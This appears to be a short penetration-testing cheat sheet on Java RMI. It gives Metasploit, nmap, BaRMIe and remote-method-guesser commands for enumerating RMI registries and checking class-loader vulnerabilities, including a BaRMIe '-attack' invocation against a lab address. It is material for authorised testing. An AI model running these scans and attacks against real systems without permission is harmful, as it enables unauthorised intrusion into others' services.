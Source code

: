 # Java RMI




## Enumerate

Check if class loader is enabled:

```
msf > use auxiliary/scanner/misc/java_rmi_server
msf > set RHOSTS file:java_rmi_hosts.txt
msf > set THREADS 25
msf > run
```

Dump registry with MSF:

```
msf > use auxiliary/gather/java_rmi_registry
msf > set RHOSTS file:java_rmi_hosts.txt
msf > run
```

Dump registry with Nmap:

```
$ sudo nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" 10.10.13.37 -p1098
```




## BaRMIe

* [https://github.com/NickstaDB/BaRMIe](https://github.com/NickstaDB/BaRMIe)

```
$ java -jar BaRMIe.jar -enum 10.10.13.37 1098
$ java -jar BaRMIe.jar -attack 10.10.13.37 1098
```




## remote-method-guesser

* [https://github.com/qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

```
$ java -jar rmg-3.0.0-jar-with-dependencies.jar 10.10.13.37 1098 enum
```




## rmiscout

* [https://github.com/BishopFox/rmiscout](https://github.com/BishopFox/rmiscout)
